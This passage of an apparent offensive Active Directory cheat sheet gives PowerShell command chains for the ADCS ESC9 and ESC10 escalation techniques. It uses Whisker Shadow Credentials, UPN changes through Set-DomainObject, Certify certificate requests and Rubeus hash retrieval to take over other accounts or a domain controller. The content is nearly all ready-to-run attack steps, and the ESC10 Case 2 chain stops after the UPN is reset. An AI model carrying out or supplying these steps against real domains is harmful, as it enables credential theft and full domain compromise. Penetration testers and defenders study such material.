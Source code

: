 ##### Windows

###### ESC9

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request vulnerable certif with user2
Certify.exe request /ca:CA.contoso.local\CA /template:"Vulnerable template"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

###### ESC10 - Case 1

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:CA.contoso.local\CA /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

###### ESC10 - Case 2

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to DC$@contoso.local
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@contoso.local'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:CA.contoso.local\CA /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
```
